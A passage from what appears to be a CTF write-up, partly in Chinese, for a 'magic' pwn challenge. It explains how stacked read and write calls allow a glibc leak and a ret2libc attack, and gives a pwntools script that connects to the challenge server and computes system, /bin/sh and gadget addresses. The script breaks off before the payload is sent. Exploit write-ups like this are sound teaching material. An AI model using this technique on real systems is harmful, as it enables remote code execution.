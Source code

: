 
4. 整理一下可以發現當 `read` 2 次、 `write` 3 次時可以 read 0x100 bytes，而當 `read` 3 次、 `write` 8 次時可以寫 0x1000 bytes。各個 memory 紀錄的數值如下：

  - `[0x404f00]` counts how many time read been called
  - `[0x404f08]` counts how many time write been called
  - `[0x404f10]` original read
  - `[0x404f18]` original write

5. 因此我們可以用 `read` 0x100 bytes 來 leak glibc (libc version 可從提供的 container 得知)，然後用 `write` 0x1000 bytes 做 ret2libc。

```python
from pwn import *

#p = remote('127.0.0.1', 12348)
p = remote('chals1.ais3.org', 12348)
debug = False

#p = process('./magic/share/magic')
#p = gdb.debug('./magic/share/magic', gdbscript='continue')
#debug = True

def read():
    print('[*] Reading')
    print(p.recvuntil(b'> '))
    p.sendline(b'w')
    data = p.recvuntil(b'read')[:-4]
    print('[*] Read', data)
    return data

def write(data=b'A'):
    print('[*] Writing')
    print(p.recvuntil(b'> '))
    p.sendline(b'r')
    p.send(data)
    print('[*] Written', data)
    return

def super_read():
    write()
    write()
    read()
    read()
    data = read()
    return data

def super_write(payload):
    for _ in range(5):
        read()
    write(payload)

# leak libc: version libc6_2.31-0ubuntu9.2_amd64
leak = super_read()
print('leak:', leak)

if debug:
    libc = int.from_bytes(leak[22:22+8], 'little') - 0x240b3
else:
    libc = int.from_bytes(leak[27:27+8], 'little') - 0x240b3
print(f'[+] Libc base: {libc:#2x}')
padding = b'A'*22
system = libc + 0x522c0
bin_sh = libc + 0x1b45bd
pop_rdi = 0x401313
ret = 0x40101a
```